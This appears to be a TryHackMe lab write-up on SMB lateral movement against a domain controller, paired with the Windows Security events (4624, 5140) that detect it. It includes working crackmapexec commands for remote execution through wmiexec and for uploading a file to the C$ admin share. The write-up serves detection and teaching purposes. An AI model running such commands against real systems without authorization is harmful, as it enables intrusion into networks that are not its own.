




# Logs Observed — T1021.002 SMB Lateral Movement

**Lab Environment:** TryHackMe — Active Directory Domain  
**Date:** 2026-06-25  
**Attacker Machine:** Linux (10.145.105.116)  
**Target Machine:** THM-SOC-DC01 (10.145.165.32)  
**Domain:** THM  
**User:** THM\THM-Analyst  

---

## Attack Executed — SMB Enumeration and Access



SMB shares were enumerated on the target domain controller using `crackmapexec`:

```
SMB  10.145.165.32  445  THM-SOC-DC01  [+] thm.soc\THM-Analyst (Pwn3d!)

Share       Permissions   Remark
-----       -----------   ------
ADMINS      READ,WRITE    Remote Admin
C$          READ,WRITE    Default share
IPC$        READ          Remote IPC
NETLOGON    READ          Logon server share
SYSVOL      READ          Logon server share
```

`(Pwn3d!)` confirms administrator-level access — full read/write to `C$` and `ADMIN$`.

---

## Remote Command Execution + File Upload



Remote commands executed on the target via SMB:

```bash
# Remote command execution — confirmed lateral movement
crackmapexec smb 10.145.165.32 -u THM-Analyst -p <redacted> -x 'whoami'
[+] Executed command via wmiexec
thm\thm-analyst

# Network recon on target
crackmapexec smb 10.145.165.32 -u THM-Analyst -p <redacted> -x 'ipconfig'
[+] Executed command via wmiexec
IPv4 Address: 10.145.165.32
Subnet Mask:  255.255.192.0

# Payload staged to target C$ share
crackmapexec smb 10.145.165.32 -u THM-Analyst -p <redacted> --put-file /tmp/payload.txt \Users\Public\payload.txt
Copying /tmp/payload.txt to \Users\Public\payload.txt
```

---

## Event ID 4624 — Network Logon (Logon Type 3)

**Log Path:** `Windows Logs > Security`  
**Filter:** Event ID 4624 + LogonType = 3

Event ID 4624 with Logon Type 3 is generated every time a network authentication occurs. This is the primary log evidence of SMB lateral movement — it records the source IP, username, and authentication method.

```
EventID:                    4624
TargetUserName:             THM-Analyst
TargetDomainName:           THM
LogonType:                  3          ← Network logon
AuthenticationPackageName:  NTLM
LmPackageName:              NTLM V2
KeyLength:                  128
IpAddress:                  10.145.105.116   ← Attacker Linux machine
IpPort:                     47100
```



**Key detection fields:**
- `LogonType: 3` — Network logon, not interactive
- `IpAddress: 10.145.105.116` — Source is the Linux attacker machine
- `AuthenticationPackageName: NTLM` — NTLM authentication over SMB
- `LmPackageName: NTLM V2` — NTLMv2 hash used for authentication

> Note: Payload file `C:\Users\Public\payload.txt` visible in File Explorer at time of event capture.

---

## Event ID 5140 — Network Share Object Accessed

**Log Path:** `Windows Logs > Security`  
**Filter:** Event ID 5140

Event ID 5140 fires when a network share is accessed. It records which share was accessed and from which IP — directly tying the attacker machine to the C$ admin share access.

```
EventID:            5140
SubjectUserName:    THM-Analyst
SubjectDomainName:  THM
ObjectType:         File
IpAddress:          10.145.105.116   ← Attacker Linux machine
IpPort:             47100
ShareName:          \\*\C$           ← Admin share accessed
ShareLocalPath:     \
AccessMask:         0x1
AccessList:         %%4416
```



**Key detection fields:**
- `ShareName: \\*\C$` — Admin share — no legitimate user should access this remotely
- `IpAddress: 10.145.105.116` — Attacker machine IP
- Correlates with 4624 via matching `IpPort: 47100`

---

## Summary — Log Coverage Matrix

| Attack Action | Event 4624 | Event 5140 |
|---|---|---|
| crackmapexec SMB authentication | ✅ LogonType 3 from 10.145.105.116 | — |
| C$ admin share accessed | — | ✅ ShareName \\*\C$ from 10.145.105.116 |
| Remote command execution (whoami, ipconfig) | ✅ Additional 4624 per execution | — |
| payload.txt written to C:\Users\Public\ | — | ✅ File access event |

---

## Key Detection Takeaways

1. **LogonType 3 from non-DC IP is suspicious** — Servers authenticating to each other via SMB is normal; a workstation or external IP hitting a DC's C$ share is not.
2. **C$ and ADMIN$ access is almost always malicious** — Legitimate admin tools use named pipes or RPC, not raw admin share access. Any external IP accessing C$ should alert immediately.
3. **NTLM to a domain controller is a red flag** — Modern environments use Kerberos. NTLMv2 to a DC from an internal workstation may indicate Pass-the-Hash.
4. **Correlate 4624 + 5140 by IpPort** — Same source port ties network logon to share access, building a complete lateral movement story.
5. **Payload in C:\Users\Public\** — Legitimate processes never write to this path via SMB. Any file creation here via a network logon is high-confidence malicious activity.
